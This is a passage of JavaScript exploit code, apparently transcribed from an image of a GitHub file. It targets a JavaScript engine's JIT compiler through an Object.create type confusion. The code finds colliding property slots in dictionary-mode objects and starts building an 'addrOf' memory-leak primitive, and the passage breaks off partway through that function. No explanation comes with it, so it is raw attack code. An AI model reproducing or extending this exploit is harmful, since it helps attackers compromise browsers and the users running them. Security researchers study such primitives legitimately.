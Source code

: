 ```javascript

function makeObj(propertyValues) {
    let o = {inline: 0x1234};
    for (let i = 0; i < obj_len; i++) {
        Object.defineProperty(o, 'p' + i, {
            writable: true,
            value: propertyValues[i]
        });
    }
    return o;
}

function findoverlap(){
	let propertyNames = [];
	for(let i=0; i < obj_len; i++){
		propertyNames[i] = 'p' + i;
	}

	eval(`
		function hax(o){
			o.a;
			this.Object.create(o);
			${propertyNames.map((p) => `let ${p}=o.${p};`).join('\n')}
			return [${propertyNames.join(', ')}];
		}
	`);
	let p_Values = [];
	for(let i=1; i< obj_len; i++){
		p_Values[i] = -i;
	}
	for(let i=0; i< 10000; i++){
		let objs = makeObj(p_Values);
		let r = hax(objs);
		for(let j=1; j < r.length; j++){
			if(j != -r[j] && r[j] < 0 && r[j] > -obj_len){
				console.log('p'+ j +' & p' + -(r[j]) +" are collision in directory");	
				[p1, p2] = [j, -r[j]];
				return;
			}
		}
	}
	
	throw "not found collision ";
}

findoverlap();

function addrOf(obj)
{
	eval(`
		function hax(o){
			o.a;
			this.Object.create(o);
			return o.p${p1}.x1;
		}

	`);
	let p_Values = [];
	p_Values[p1] = {x1:23.33, x2: 33.44};
	p_Values[p2] = {y1: obj};
	
	for(let i=0; i < 10000; i++){
		let objs = makeObj(p_Values);
```